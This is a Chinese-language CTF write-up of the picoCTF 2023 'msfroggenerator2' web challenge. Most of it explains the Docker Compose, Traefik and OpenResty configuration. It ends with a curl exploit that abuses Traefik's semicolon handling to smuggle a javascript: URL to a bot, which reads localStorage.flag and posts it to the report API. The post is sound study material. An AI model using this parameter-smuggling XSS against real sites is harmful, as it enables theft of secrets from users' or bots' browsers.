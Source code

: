 # msfroggenerator2

[题目](https://play.picoctf.org/practice/challenge/360)

照着[wp](https://rorical.blue/2023/03/picoCTF%202023%20msfroggenerator2%20writeup/)复现都复现不出来，我是废物。这道题让我再次深刻地意识到我的web基础过于薄弱。大家做不出来这道题是因为想不到payload，我做不出来这道题是因为题没看懂。这里只记录基础内容的补充。

首先是docker-compose.yml。以前从来没认真看过这个文件，一度以为用处不大。我tm是怎么走到今天的？

```yml
services:
  api:
    container_name: api
    build: ./api
    init: true
    volumes:
      - ./flag.txt:/flag.txt
  bot:
    container_name: bot
    build: ./bot
    init: true
    volumes:
      - ./flag.txt:/flag.txt
  traefik:
    image: traefik:2.9
    container_name: traefik
    volumes:
      - ./traefik/traefik.yml:/etc/traefik/traefik.yml:ro
      - ./traefik/web.yml:/etc/traefik/web.yml:ro
  openresty:
    container_name: openresty
    image: openresty/openresty:1.21.4.1-0-alpine
    ports:
      - 8080:8080
    volumes:
      - ./openresty/web.conf:/etc/nginx/conf.d/web.conf:ro
      - ./openresty/static:/var/www:ro
```

大部分都可以看[文档](https://docs.docker.com/compose/compose-file/compose-file-v3/)。该文件指明有4个服务：api，bot，traefik和openresty。这4个服务的名字都是用户自己取的，不重要。每个服务内的container_name同理。init似乎不重要，文档说作用是`Run an init inside the container that forwards signals and reaps processes. `，这道题里的作用不明显。[volumes](https://docs.docker.com/storage/volumes/)可用于保持数据，个人感觉在拷贝文件，把源代码里的文件拷贝到container里。image是container使用的镜像，build则是当场创建一个，利用指定文件夹内的Dockerfile。

里面提到的[traefik](https://doc.traefik.io/traefik/routing/overview/)是一个用于[反向代理](https://www.zhihu.com/question/24723688)和[负载均衡](https://zhuanlan.zhihu.com/p/32841479)的软件。那么它代理的是啥呢？

```yml
http:
  routers:
    api:
      service: api
      rule: "Host(`api`)"
    bot:
      service: bot
      rule: "Host(`bot`)"
  services:
    api:
      loadBalancer:
        servers:
          - url: "http://api:8080"
    bot:
      loadBalancer:
        servers:
          - url: "http://bot:8080"
```

这里我没有特别地去了解配置文件的写法，猜测是有两个路由，rule里根据host头判断要转发到哪个服务。用户主要访问的服务器肯定是openresty，因为只有它对外开放了port。那么来看看nginx的[配置文件](https://www.cnblogs.com/54chensongxia/p/12938929.html)。

```conf
server {
    listen 8080;
    resolver local=on;
    location / {
        add_header Content-Security-Policy "default-src 'none'; script-src 'self'; style-src 'self'; img-src https://cdn.jsdelivr.net/gh/Crusaders-of-Rust/corCTF-2022-public-challenge-archive@master/web/msfroggenerator/task/img/; connect-src 'self'" always;
        root /var/www;
    }
    location /api/ {
        proxy_set_header Host api;
        proxy_pass "http://traefik:8080";
    }
    location = /report {
        proxy_set_header Host bot;
        set_by_lua $url 'return "http://openresty:8080/?id=" .. ngx.var.arg_id';
        proxy_pass "http://traefik:8080/?url=$url";
    }
}
```

[proxy_set_header](https://www.cnblogs.com/kevingrace/p/8269955.html)重新定义或添加字段传递给代理服务器的请求头，设置的正是刚才提到的host头。[proxy_pass](https://www.jianshu.com/p/b010c9302cd0)设置转发给traefik，然后traefik就能根据host头选择服务了。[set_by_lua](https://juejin.cn/s/nginx%20set_by_lua%20directive)用于在nginx配置文件中执行Lua代码，并将执行结果存储到nginx变量中。`..`起到拼接的作用，`ngx.var.arg_id`为query 参数。

这里就是全部的基础内容了，具体解法可以看wp，非常清晰（就是复现不出来，再清晰也改变不了我笨的事实）。

今天看到另一个[wp](https://blog.maple3142.net/2023/03/29/picoctf-2023-writeups/#msfroggenerator2)，再度刷新我的认知：糟了原来这么简单，看来我真的是个笨蛋。

前半部分和上面的wp一样，利用traefik判断query string separator时会考虑分号`;`，且在 2.7.2 版本之后会将分号标准化为`&`，于是有了参数覆盖。非预期的地方在于，既然可以让bot去任意url了，完全可以塞个`javascript:script`来让bot执行xss payload。
```sh
base=
curl -g $base'/report?id=;url=javascript:fetch("/api/reports/add",{method:"POST",headers:{"Content-Type":"application/json","Authorization":`Bearer\u0020${localStorage.flag}`},body:JSON.stringify({url:localStorage.flag})})' -v
sleep 5
curl $base'/api/reports/get' | jq .[].url
```
最后的`jq .[].url`中的jq是个处理json的命令，`.[]` is a jq filter that extracts the values of all elements in the top-level array。

exp逻辑大概是这样的：根据源码（bot.js），bot会去到我们给出的url，在url的页面截个图，发往`/api/reports/add`。`/api/reports/add`判断Bearer是否是flag（即是不是bot发的），然后将接收到的req.body作为report加入reports数组（web.js）。`/api/reports/get`路由获取之前加的所有report。现在我们发送的url直接就是js代码，bot执行后会带着bearer去往add，req.body也是flag。自然去到get就能拿到flag了。

题目作者确实加了csp，但chrome似乎允许`page.goto`(等于用户在浏览器输入url)执行xss，不管csp。